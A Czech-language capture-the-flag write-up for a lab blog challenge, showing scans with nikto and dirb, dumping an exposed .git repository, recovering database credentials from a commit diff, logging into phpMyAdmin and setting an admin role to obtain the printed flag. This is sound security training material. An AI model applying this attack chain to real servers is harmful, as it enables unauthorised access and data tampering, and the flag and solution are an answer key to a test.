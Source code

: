 # Blog site (4)

## Zadání

Hi, packet inspector,

a simple blog webpage was created where all employees can write their suggestions for improvements. It is one part of the optimization plan designed by our allmighty AI.

Examine the web <http://blog.mysterious-delivery.tcc:20000/> and find any interesting information.

May the Packet be with you!

## Nápovědy (Hints)

1\. Use VPN to get access to the server.

2\. Any employee of Mysterious Delivery, Ltd. can contribute to the blog – do not trust any information (notably flags) appearing in posts.

## Řešení

Zkusíme se zaregistrovat a vložit příspěvek s paylodem, který by využil SSTI (Server Side Template Injection), ale to nevypadá, jako správná cesta. Server je vytvořen z tutorialu <https://flask.palletsprojects.com/en/2.2.x/tutorial/blog/>, takže tam v tomhle směru asi žádná chyba nebude. Po přihlášení se v menu objeví položka `Settings`, která ale není přístupná.

```text
Forbidden

You don't have the permission to access the requested resource. It is either read-protected or not readable by the server.
```
---
Projedem server nějakými diagnostickými nástroji, jestli server neobsahuje nějaké další stránky, na které není odkaz.

```text
$ nikto -h blog.mysterious-delivery.tcc -p 20000
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          blog.mysterious-delivery.tcc
+ Target Hostname:    blog.mysterious-delivery.tcc
+ Target Port:        20000
+ Start Time:         2022-10-15 14:45:35 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.4.54 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: HEAD, GET, OPTIONS
+ Cookie phpMyAdmin created without the httponly flag
+ Cookie goto created without the httponly flag
+ Cookie back created without the httponly flag
+ Cookie pma_lang created without the httponly flag
+ Uncommon header 'referrer-policy' found, with contents: no-referrer
+ Uncommon header 'x-robots-tag' found, with contents: noindex, nofollow
+ Uncommon header 'x-xss-protection' found, with contents: 1; mode=block
+ Uncommon header 'x-frame-options' found, with contents: DENY
+ Uncommon header 'x-permitted-cross-domain-policies' found, with contents: none
+ Uncommon header 'x-content-security-policy' found, with contents: default-src 'self' ;options inline-script eval-script;referrer no-referrer;img-src 'self' data:  *.tile.openstreetmap.org;object-src 'none';
+ Uncommon header 'content-security-policy' found, with contents: default-src 'self' ;script-src 'self' 'unsafe-inline' 'unsafe-eval' ;style-src 'self' 'unsafe-inline' ;img-src 'self' data:  *.tile.openstreetmap.org;object-src 'none';
+ Uncommon header 'x-webkit-csp' found, with contents: default-src 'self' ;script-src 'self'  'unsafe-inline' 'unsafe-eval';referrer no-referrer;style-src 'self' 'unsafe-inline' ;img-src 'self' data:  *.tile.openstreetmap.org;object-src 'none';
+ Uncommon header 'x-ob_mode' found, with contents: 1
+ Uncommon header 'x-content-type-options' found, with contents: nosniff
+ /phpmyadmin/: phpMyAdmin directory found
+ Server leaks inodes via ETags, header found with file /.git/index, fields: 0xa3b 0x5eb03a9ec5db4
+ OSVDB-3092: /.git/index: Git Index file may contain directory listing information.
+ 6544 items checked: 0 error(s) and 19 item(s) reported on remote host
+ End Time:           2022-10-15 14:46:58 (GMT2) (83 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Jsou zajímavé dvě řádky

```text
+ /phpmyadmin/: phpMyAdmin directory found
+ OSVDB-3092: /.git/index: Git Index file may contain directory listing information.
```

Můžeme zkusit ještě další

```text
$ dirb http://blog.mysterious-delivery.tcc:20000

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sat Oct 15 14:49:14 2022
URL_BASE: http://blog.mysterious-delivery.tcc:20000/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://blog.mysterious-delivery.tcc:20000/ ----
+ http://blog.mysterious-delivery.tcc:20000/.git/HEAD (CODE:200|SIZE:23)
+ http://blog.mysterious-delivery.tcc:20000/create (CODE:302|SIZE:209)
+ http://blog.mysterious-delivery.tcc:20000/hello (CODE:200|SIZE:13)
==> DIRECTORY: http://blog.mysterious-delivery.tcc:20000/javascript/
==> DIRECTORY: http://blog.mysterious-delivery.tcc:20000/phpmyadmin/
+ http://blog.mysterious-delivery.tcc:20000/server-status (CODE:403|SIZE:279)
+ http://blog.mysterious-delivery.tcc:20000/settings (CODE:302|SIZE:209)

---- Entering directory: http://blog.mysterious-delivery.tcc:20000/javascript/ ----
==> DIRECTORY: http://blog.mysterious-delivery.tcc:20000/javascript/jquery/

---- Entering directory: http://blog.mysterious-delivery.tcc:20000/phpmyadmin/ ----
==> DIRECTORY: http://blog.mysterious-delivery.tcc:20000/phpmyadmin/doc/
...
```

Zde stejně zajímavé stránky

```text
+ http://blog.mysterious-delivery.tcc:20000/.git/HEAD (CODE:200|SIZE:23)
==> DIRECTORY: http://blog.mysterious-delivery.tcc:20000/phpmyadmin/
```

To znamená, že je na serveru přístupný `.git` adresář, což je zranitelnost, kterou využijeme. Stáhneme ze serveru celý git repozitář pomocí <https://github.com/WangYihang/GitHacker> nebo <https://github.com/arthaud/git-dumper>

```text
$ githacker --url http://blog.mysterious-delivery.tcc:20000/.git/ --output-folder result
2022-10-15 09:10:26 INFO 1 urls to be exploited
2022-10-15 09:10:26 INFO Exploiting http://blog.mysterious-delivery.tcc:20000/.git/ into result/d45267fdd99518ec8042a09a02c5f355
2022-10-15 09:10:26 INFO Downloading basic files...
2022-10-15 09:10:26 ERROR [293 bytes] 404 .git/FETCH_HEAD
2022-10-15 09:10:26 INFO [18 bytes] 200 .git/COMMIT_EDITMSG
2022-10-15 09:10:26 INFO [73 bytes] 200 .git/description
2022-10-15 09:10:26 INFO [23 bytes] 200 .git/HEAD
2022-10-15 09:10:26 INFO [2619 bytes] 200 .git/index
2022-10-15 09:10:26 INFO [240 bytes] 200 .git/info/exclude
2022-10-15 09:10:26 INFO [5523 bytes] 200 .git/logs/HEAD
2022-10-15 09:10:26 ERROR [293 bytes] 404 .git/logs/refs/remotes/origin/HEAD
2022-10-15 09:10:26 ERROR [293 bytes] 404 .git/logs/refs/stash
2022-10-15 09:10:26 INFO [41 bytes] 200 .git/ORIG_HEAD
2022-10-15 09:10:26 ERROR [293 bytes] 404 .git/packed-refs
2022-10-15 09:10:26 ERROR [293 bytes] 404 .git/refs/remotes/origin/HEAD
...
```

Stažený repozitář je zde [git_repo.zip](git_repo.zip)

---
Dále zkusíme otevřít další nalezenou stránku <http://blog.mysterious-delivery.tcc:20000/phpmyadmin/>. Otevře se přihlašovací dialog `phpMyAdmin` do které ale neznáme heslo.

Prozkoumáme tedy git repozitář. Po chvíli hledání narazíme na zajímavý commit `777c4dc8a31c74b2f787b38670def0aaaa412fe7`, ve kterém se mění přihlašovací údaje v souboru `flaskr/db.py`.

```diff
-        g.db = mysql.connector.connect(user='ctfb5', password='56843437e5c747a2c9c08e4b79f109c3', database='ctfb5', autocommit=True)
+        g.db = mysql.connector.connect(host='dbserver', user='attendance', password='ATTENDANCEPASSWORD', database='attendance', autocommit=True)
```

Zkusíme je zadat do `phpMyAdmin`.

`ctfb5 / 56843437e5c747a2c9c08e4b79f109c3` - nefunguje

`attendance / ATTENDANCEPASSWORD` - nefunguje

`ctfb5 / ATTENDANCEPASSWORD` - nefunguje

`attendance / 56843437e5c747a2c9c08e4b79f109c3` - funguje 👍

Máme tedy přístup do SQL databáze.

---
Prozkoumáme ještě soubor `flaskr/blog.py` a zjistíme, proč nejde otevřít stránka z menu `Settings`.

```python
@bp.route("/settings")
@login_required
def settings():
    """Configure blog"""

    if (not g.user["role"]) or ("admin" not in g.user["role"].split(",")):
        abort(403)

    return render_template("blog/settings.html")
```

Server tedy vyžaduje u uživatele ve sloupci `role` hodnotu `admin`.

Protože již máme přístup k SQL serveru, tak jí tam pro našeho uživatele zapíšeme.

Nyní je již stránka `Settings` přístupná a získáme flag.

PS: Z phpMyAdmin můžeme měnit i ostatní uživatele a jejich příspěvky a zakládat nové tabulky.

## Flag

`FLAG{gDfv-5zlU-spVN-D4Qb}`
